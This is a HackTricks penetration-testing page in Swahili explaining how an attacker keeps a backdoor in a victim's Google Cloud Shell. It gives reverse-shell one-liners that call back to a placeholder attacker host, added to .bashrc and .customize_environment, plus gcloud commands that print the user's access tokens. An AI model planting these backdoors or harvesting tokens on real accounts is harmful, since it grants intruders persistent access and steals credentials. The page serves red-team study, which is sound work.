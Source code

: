 # GCP - Uthabiti wa Cloud Shell

{% hint style="success" %}
Jifunze & zoezi Udukuzi wa AWS:<img src="/.gitbook/assets/image.png" alt="" data-size="line">[**Mafunzo ya HackTricks AWS Timu Nyekundu Mtaalam (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/image.png" alt="" data-size="line">\
Jifunze & zoezi Udukuzi wa GCP: <img src="/.gitbook/assets/image (2).png" alt="" data-size="line">[**Mafunzo ya HackTricks GCP Timu Nyekundu Mtaalam (GRTE)**<img src="/.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Angalia [**mpango wa michango**](https://github.com/sponsors/carlospolop)!
* **Jiunge na** 💬 [**Kikundi cha Discord**](https://discord.gg/hRep4RUj7f) au kikundi cha [**telegram**](https://t.me/peass) au **tufuate** kwenye **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Shiriki mbinu za udukuzi kwa kuwasilisha PRs kwa** [**HackTricks**](https://github.com/carlospolop/hacktricks) na [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}

## Cloud Shell

Kwa habari zaidi angalia:

{% content-ref url="../gcp-services/gcp-cloud-shell-enum.md" %}
[gcp-cloud-shell-enum.md](../gcp-services/gcp-cloud-shell-enum.md)
{% endcontent-ref %}

### Mlango wa Nyuma wa Kudumu

[**Google Cloud Shell**](https://cloud.google.com/shell/) inakupa ufikiaji wa mstari wa amri kwa rasilimali zako za wingu moja kwa moja kutoka kwenye kivinjari chako bila gharama yoyote inayohusiana.

Unaweza kupata Cloud Shell ya Google kutoka kwenye **konsoli ya wavuti** au kwa kukimbia **`gcloud cloud-shell ssh`**.

Konsoli hii ina uwezo wa kuvutia kwa wadukuzi:

1. **Mtumiaji yeyote wa Google mwenye ufikiaji wa Google Cloud** ana ufikiaji wa kipengele cha Cloud Shell kilichothibitishwa kabisa (Akaunti za Huduma zinaweza, hata ikiwa ni Wamiliki wa shirika).
2. Kipengele kilichotajwa **kitahifadhi saraka yake ya nyumbani kwa angalau siku 120** ikiwa hakuna shughuli inayotokea.
3. Hakuna **uwezo wa shirika kufuatilia** shughuli ya kipengele hicho.

Hii kimsingi inamaanisha kwamba mshambuliaji anaweza kuweka mlango wa nyuma kwenye saraka ya nyumbani ya mtumiaji na muda mrefu kama mtumiaji anajiunganisha kwenye GC Shell kila baada ya siku 120 angalau, mlango wa nyuma utaendelea kuwepo na mshambuliaji atapata kikao kila wakati unapoendeshwa tu kwa kufanya:

{% code overflow="wrap" %}
```bash
echo '(nohup /usr/bin/env -i /bin/bash 2>/dev/null -norc -noprofile >& /dev/tcp/'$CCSERVER'/443 0>&1 &)' >> $HOME/.bashrc
```
{% endcode %}

Kuna faili nyingine katika folda ya nyumbani inayoitwa **`.customize_environment`** ambayo, ikiwepo, itatekelezwa **kila wakati** mtumiaji anapata **shell ya wingu** (kama katika mbinu iliyopita). Ingiza mlango wa nyuma uliopita au moja kama ifuatavyo kudumisha uthabiti muda mrefu mtumiaji anapotumia "mara kwa mara" shell ya wingu:
```bash
#!/bin/sh
apt-get install netcat -y
nc <LISTENER-ADDR> 443 -e /bin/bash
```
{% hint style="warning" %}
Ni muhimu kutambua kwamba **wakati wa kwanza kitendo kinachohitaji uthibitisho kinatekelezwa**, dirisha la idhini linaloibuka katika kivinjari cha mtumiaji. Dirisha hili lazima liidhinishwe kabla ya amri kuendeshwa. Ikiwa dirisha lisilotarajiwa linaonekana, linaweza kuzua shaka na kuhatarisha njia ya uthabiti inayotumiwa.
{% endhint %}

Hii ni dirisha la idhini kutoka kwa kutekeleza `gcloud projects list` kutoka kwa ganda la wingu (kama mshambuliaji) inayoonekana katika kikao cha mtumiaji wa kivinjari:

<figure><img src="../../../.gitbook/assets/image (10).png" alt=""><figcaption></figcaption></figure>

Walakini, ikiwa mtumiaji ameitumia cloudshell kikamilifu, dirisha la idhini halitaonekana na unaweza **kukusanya vifunguo vya mtumiaji na**:
```bash
gcloud auth print-access-token
gcloud auth application-default print-access-token
```
#### Jinsi uhusiano wa SSH unavyoundwa

Kimsingi, maombi haya 3 ya API hutumiwa:

* [https://content-cloudshell.googleapis.com/v1/users/me/environments/default:addPublicKey](https://content-cloudshell.googleapis.com/v1/users/me/environments/default:addPublicKey) \[POST] (itakufanya uongeze funguo yako ya umma uliyounda kwa upande wako)
* [https://content-cloudshell.googleapis.com/v1/users/me/environments/default:start](https://content-cloudshell.googleapis.com/v1/users/me/environments/default:start) \[POST] (itakufanya uanzishe kipengee)
* [https://content-cloudshell.googleapis.com/v1/users/me/environments/default](https://content-cloudshell.googleapis.com/v1/users/me/environments/default) \[GET] (itakwambia anwani ya IP ya ganda la Google Cloud)

Lakini unaweza kupata habari zaidi katika [https://github.com/FrancescoDiSalesGithub/Google-cloud-shell-hacking?tab=readme-ov-file#ssh-on-the-google-cloud-shell-using-the-private-key](https://github.com/FrancescoDiSalesGithub/Google-cloud-shell-hacking?tab=readme-ov-file#ssh-on-the-google-cloud-shell-using-the-private-key)

## Marejeo

* [https://89berner.medium.com/persistant-gcp-backdoors-with-googles-cloud-shell-2f75c83096ec](https://89berner.medium.com/persistant-gcp-backdoors-with-googles-cloud-shell-2f75c83096ec)
* [https://github.com/FrancescoDiSalesGithub/Google-cloud-shell-hacking?tab=readme-ov-file#ssh-on-the-google-cloud-shell-using-the-private-key](https://github.com/FrancescoDiSalesGithub/Google-cloud-shell-hacking?tab=readme-ov-file#ssh-on-the-google-cloud-shell-using-the-private-key)
* [https://securityintelligence.com/posts/attacker-achieve-persistence-google-cloud-platform-cloud-shell/](https://securityintelligence.com/posts/attacker-achieve-persistence-google-cloud-platform-cloud-shell/)
